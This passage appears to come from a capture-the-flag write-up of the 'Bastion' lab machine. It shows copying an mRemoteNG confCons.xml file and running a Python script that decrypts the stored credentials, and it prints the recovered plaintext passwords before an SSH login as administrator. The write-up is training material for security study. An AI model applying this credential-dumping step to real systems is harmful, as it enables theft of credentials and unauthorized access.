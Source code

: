 After enumerate the system we found in the Program Files folder a program called mRemoteNG. This program stores the credentials locally a we can dump them with **[this python script]()**. Move the file `C:\Users\L4mpje\AppData\Roaming\mRemoteNG\confCons.xml` to our machine and dump the credentials

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Bastion-10.10.10.134]
└─$ python3 mremoteng_decrypt.py -rf confCons.xml 
Username: Administrator
Hostname: 127.0.0.1
Password: thXLHM96BeKL0ER2 

Username: L4mpje
Hostname: 192.168.1.75
Password: bureaulampje
```

And accessing with SSH we are administrator